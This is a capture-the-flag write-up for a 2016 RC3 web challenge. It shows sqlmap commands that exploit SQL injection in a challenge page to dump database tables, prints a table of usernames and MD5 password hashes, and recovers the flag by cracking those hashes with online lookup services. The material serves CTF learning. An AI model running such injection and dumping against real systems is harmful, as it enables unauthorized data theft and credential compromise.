```yaml
---
layout: post
title: "RC3 CTF : Just Joking, Joker Joked"
author: dade
date: 2016-11-20 13:37:57 -0700
slug: just-joking
category:
- 2016
- rc3ctf
---
```

**Category:** Web

**Points:** 200

**Description:**

```
Yes, that is gramatically correct. Now who doesn't love a good book and an even better villain?

https://ctf.rc3.club:2010/

With Love,

Joker xx

"Hint: 200: Flags aren't in plaintext"
```

# Investigation
I kind of cheated here, I normally wouldn't resort to running sqlmap immediately. But in the end, I used it to dumb tables.

```
$ sqlmap -u "https://ctf.rc3.club:2010/connect.php?primary=" --dbs
$ sqlmap -u "https://ctf.rc3.club:2010/connect.php?primary=" --tables
$ sqlmap -u "https://ctf.rc3.club:2010/connect.php?primary=" -D CCNs -T basic
$ sqlmap -u "https://ctf.rc3.club:2010/connect.php?primary=" -D CCNs -T secrets
```
I used this to dump tables, I also dumped the rest of the tables but nothing looked especially interesting.

```
CCNs
	basic
	+----+--------------+--------+
	| id | name         | gender |
	+----+--------------+--------+
	| 1  | Harley Quinn | Female |
	| 2  | Riddler      | ?      |
	| 3  | Joker        | HAHAHA |
	| 5  | Two-Face     | Male   |
	+----+--------------+--------+
	secrets
	+----+---------+----------------------------------+
	| id | User    | Password                         |
	+----+---------+----------------------------------+
	| 1  | Admin   | 3118dd54268acb0f04a048fd090e14f7 |
	| 2  | Guy     | c9846fa3e401252cf822a21ecf6a567e |
	| 3  | Joker   | c417fccfc5d5a288243c96359c62c381 |
	| 4  | Colonel | adac9d4711cd21cc4cec1b0f8e7ca538 |
	+----+---------+----------------------------------+
```

Looking at the flag.welcome table, the flag claims to be pcbfcppgle. I also happen to be told in the hint that "flags aren't in plaintext" so let's rotate that flag.

Using my favorite [caesar cipher tool](http://www.xarg.org/tools/caesar-cipher/) we put that in and choose "Guess" for the key, and it finds that with a key of 2 the flag translates to redherring. How annoying.


Looking at the CCNs.secrets table, we see some hashes. Let's try to crack (https://crackstation.net) those.

3118dd54268acb0f04a048fd090e14f7 -> NiceTry

Again, how annoying.

!(https://i.ytimg.com/vi/ZZ81_Wkykfo/hqdefault.jpg)

Let's see if any online databases have the other hashes.


Crackstation? Nope.


Hashkiller? Nope.


MD5Decrypt.org? Yup.

```
3118dd54268acb0f04a048fd090e14f7 -> NiceTry
c9846fa3e401252cf822a21ecf6a567e -> InfectiousLaughter
c417fccfc5d5a288243c96359c62c381 -> RC3-2016-HAHAHAHA
adac9d4711cd21cc4cec1b0f8e7ca538 -> TheRealSanders
```

# Flag
**RC3-2016-HAHAHAHA**
